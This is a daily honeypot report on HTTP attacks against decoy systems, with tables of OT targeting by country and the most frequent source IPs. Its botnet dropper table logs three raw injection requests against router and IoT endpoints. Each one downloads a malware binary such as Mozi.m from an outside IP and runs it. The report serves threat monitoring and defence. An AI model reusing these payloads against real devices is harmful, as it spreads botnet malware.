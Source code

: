 ```yaml
---
title: "Report: 2025-02-28 "
date: 2025-02-28
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-28
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| CN               | Singapore          |
| IN               | Australia          |
| PT               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                             |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.130.214.244 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                       |
| 103.94.142.78   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.94.142.78:42258/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                        |
| 103.161.35.248  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7.nn%3B%20wget%20http%3A%2F%2F176.65.134.15%2Farm7.nn%3B%20chmod%20777%20%2A%3B%20.%2Farm7.nn%20tbk HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   348 | 193.41.206.176  |
|   1 |                   100 | 193.41.206.12   |
|   2 |                    85 | 78.153.140.177  |
|   3 |                    77 | 193.68.89.10    |
|   4 |                    75 | 78.153.140.224  |
|   5 |                    73 | 78.153.140.179  |
|   6 |                    68 | 45.148.10.35    |
|   7 |                    59 | 92.255.57.58    |
|   8 |                    58 | 45.148.10.34    |